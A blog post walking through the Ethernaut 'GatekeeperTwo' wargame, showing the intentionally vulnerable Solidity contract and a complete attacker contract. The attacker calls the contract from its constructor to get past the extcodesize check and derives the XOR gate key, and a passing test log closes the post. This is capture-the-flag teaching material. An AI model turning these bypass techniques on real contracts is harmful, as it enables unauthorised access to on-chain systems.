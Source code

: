 ###########################
Ethernaut 14: GatekeeperTwo
###########################
:date: 2023-09-03
:slug: ethernaut-14-GatekeeperTwo
:summary: Content Warning: Yellowpaper
:tags: 
:author: capu
:featured_image:


Objective
=========
Get past the three gatekeepers and register as the ``entrant``.

Code
====
.. code-block:: solidity
    :linenos: inline

    contract GatekeeperTwo {
        address public entrant;

        modifier gateOne() {
            require(msg.sender != tx.origin);
            _;
        }

        modifier gateTwo() {
            uint256 x;
            assembly {
                x := extcodesize(caller())
            }
            require(x == 0);
            _;
        }

        modifier gateThree(bytes8 _gateKey) {
            require(
                uint64(bytes8(
                    keccak256(abi.encodePacked(msg.sender))
                ))
                    ^ uint64(_gateKey)
                == type(uint64).max
            );
            _;
        }

        function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
            entrant = tx.origin;
            return true;
        }
    }

Solution
========

gateOne
-------

.. code-block:: solidity

    tx.origin != msg.sender

This is simiar to the Telephone challenge, just calling from a contract gets us
through the gate.

gate two
--------

.. code-block:: solidity

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

This makes sure the caller has a code size of zero. I could call from an EOA,
but that'd break gate one.

Initially, I read the following in Solidity's docs:

    selfdestruct(address payable recipient)
        Destroy the current contract, sending its funds to the given Address and end
        execution. Note that selfdestruct has some peculiarities inherited from the EVM:
        the receiving contract’s receive function is not executed.
        **the contract is only really destroyed at the end of the transaction** and reverts might “undo” the destruction.

(emphasis mine)

So I tried to first selfdestruct the caller contract and then call the
Gatekeeper: 

.. code-block:: solidity

    function attack(GatekeeperTwo target) {
        selfdestruct(msg.sender);
        target.enter(bytes8(0));
    }

my idea being:

- the contract is marked for destruction
- then an external call is made to the GatekeeperTwo
- in the external call, the codesize of the calling contract is zero

but the result was simply that the GatekeeperTwo was not called 🙃. Destructing
the contract finished the internal transaction, similar to a return.

.. note::

    this is the kind of error solhint (currently) doesn't report, but slither
    does

I wasn't able to walk around gate two, but the challenge has a tip:

    The extcodesize call in this gate will get the size of a contract's code at a
    given address - you can learn more about how and when this is set in section 7
    of the yellow paper.

So I had to dive into the yellowpaper. Don't worry, you won't have to: The
takeaway is that the codesize for an account is set at the end of the creation
transaction, and is zero before that.

Looking into `how contracts are actually deployed
<{filename}/2023-04-24-evm-puzzles-2.rst>`_ , it makes sense, since it's the
return value of the code executed by CREATE what's saved as the contract code,
and therefore is not possible to know the size of that when execution hasn't yet
returned.

The solution then, is to call the ``enter``  method from the attacker's
constructor.

.. code-block:: solidity

    constructor(GatekeeperTwo target) {
        target.enter(bytes8(0));
    }

gate three
----------

.. code-block:: solidity
    :linenos: inline
    :hl_lines: 3 4 5

    modifier gateThree(bytes8 _gateKey) {
        require(
            uint64(bytes8(
                keccak256(abi.encodePacked(msg.sender))
            )) // A
                ^ uint64(_gateKey) // B
            == type(uint64).max// C
        );
        _;
    }

this is again easy to do from solidity since I can simply perform the same
operations on the attacker contract, and, taking advantage of the fact that
XORing (``^``) is its own inverse:

.. code::

    A ^ B == C
    =>
    A ^ C == B

let's compute the first part (highlighted), ``A``: 

.. code-block:: solidity

    uint64 left = uint64(bytes8(
        keccak256(abi.encodePacked(address(this)))
    ));

and XOR it with the result we want, ``C``, to get ``B``:

.. code-block:: solidity

        uint64 key = left ^ (type(uint64).max);

Lastly, stitch the whole thing together:

.. code-block:: solidity

    contract Caller {
        constructor(GatekeeperTwo target) {
            uint64 left = uint64(bytes8(
                keccak256(abi.encodePacked(address(this)))
            ));
            uint64 key = left ^ (type(uint64).max);
            target.enter(bytes8(key));
        }
    }
    function solution(address payable target_) internal override{
        GatekeeperTwo target = GatekeeperTwo(target_);
        new Caller(target);
    }

.. code::

    Running 1 test for test/14-GatekeeperTwo.t.sol:GatekeeperTwoSolution
    [PASS] testSolution() (gas: 1695202)
    Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 3.65ms
    Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)

😎
